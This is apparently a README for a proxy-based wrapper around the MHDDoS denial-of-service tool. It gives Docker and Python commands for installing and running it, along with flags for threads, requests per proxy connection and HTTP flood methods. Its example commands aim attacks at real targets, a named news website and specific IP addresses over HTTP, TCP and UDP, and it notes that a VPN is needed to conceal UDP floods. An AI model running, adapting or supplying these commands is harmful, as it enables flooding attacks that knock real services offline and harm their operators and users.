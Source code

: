 - Windows: https://docs.docker.com/desktop/windows/install/
- Mac: https://docs.docker.com/desktop/mac/install/
- Ubuntu: https://docs.docker.com/engine/install/ubuntu/

      docker pull ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest

## Running

### Docker

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest COMMAND

### Python

    python3 runner.py COMMAND

## Usage

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [--rpc RPC] 
                     [--debug]
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -t, --threads 300      Threads per CPU Core (default is 300)
      -c, --config URL       URL to a config file (list of targets in plain text)
      -p, --period 900       How often to update the proxies (default is 900)
      --debug                Enable debug output from MHDDoS
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --http-methods GET     List of HTTP(s) attack methods to use.
                             (default is GET, POST, STRESS, BOT, PPS)
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

# Examples

    python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

    docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

Target specification

- HTTP(S) by URL - `https://tvzvezda.ru` or `http://tvzvezda.ru`
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT - `tcp://194.54.14.131:4477`
- UDP by IP:PORT - `udp://217.175.155.100:53` - **REQUIRES VPN**
